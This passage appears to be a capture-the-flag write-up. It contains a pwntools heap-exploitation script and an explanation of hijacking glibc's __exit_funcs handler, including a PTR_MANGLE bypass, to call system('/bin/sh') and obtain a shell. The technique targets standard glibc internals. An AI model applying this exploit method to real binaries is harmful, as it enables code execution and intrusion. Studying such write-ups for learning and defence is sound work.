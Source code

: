 ```python
    li(libc_base)

    add_chunk(10,b'aa')
    add_chunk(30,b'aa')
    del_chunk(0)
    del_chunk(1)

    got = 0x21a098-0x30
    got = 0x21bf00+0x10
    li(libc_base-0x28c0)
    add_chunk(0x18,p64(0x30)+p64(1)+p64(libc_base-0x28c0+0x30))

    li(libc_base)

    modify_chunk(0,p64(0)*3)
    modify_chunk(2,p64(0x30)+p64(1)+p64(libc_base+got))
    modify_chunk(0,p64(4)+p64(ROL(libc_base+libc.symbols['system'],0x11))+p64(libc_base+next(libc.search(b"/bin/sh"))))
    exit_pr()

    p.interactive()
```

i tried to find libc got and exploit it with one gadget, but it didn't work.
there are many one gadgets and libc got in libc.so.6, but condition not matched.
so, i find another place to overwrite, and finally find `__exit_funcs`.
when `exit` is called, it internally call `__run_exit_handlers` and then, handlers call functions refer from `exit_function_list` pointed to by `__exit_funcs`.
```c
struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
	void (*at) (void);
	struct
	  {
	    void (*fn) (int status, void *arg);
	    void *arg;
	  } on;
	struct
	  {
	    void (*fn) (void *arg, int status);
	    void *arg;
	    void *dso_handle;
	  } cxa;
      } func;
  };
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```
if overwrite `__exit_funcs`'s exit_function, can change control flow. (with flavor : 4 (`ef_cxa`), `exafct(arg,status)` called)
but, `__exit_funcs` uses `PTR_MANGLE`, `PTR_DEMANGLE` for security.
overwrite `fs:[0x30]` with 0 and overwrite func pointer with `ROL(system)` -> can bypass.
